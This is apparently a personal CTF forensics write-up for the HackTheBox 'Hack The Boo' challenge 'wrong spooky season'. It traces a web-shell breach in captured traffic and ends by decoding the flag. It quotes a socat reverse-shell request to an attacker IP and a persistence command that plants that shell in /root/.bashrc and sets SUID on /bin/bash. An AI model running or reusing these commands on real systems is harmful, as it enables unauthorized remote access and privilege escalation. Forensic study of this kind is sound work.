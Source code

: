 202210251603
Status:: #ctf
Tags: [[hack_the_boo]], [[forensics]]

# hack_the_boo_wrong_spooky_season
Platform: *hackthebox*
event: *hack the boo*
type: *forensics*
task: *"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the 'Spooky Network' and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.*
flag: **HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}**

# steps
In export http object list we can notice requests with `RCE` one of which installs [[socat]]:
![[Pasted image 20221025214044.png]]

Request in packet 464 initiates a reverse connection to attacker:
`GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1\r\n`

Filtering by `tcp.stream eq 14` we have conversation, following which we can see  command:
`echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash`

Here is reversed base64 encoded string:
`==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS`
```bash
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d                   

HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

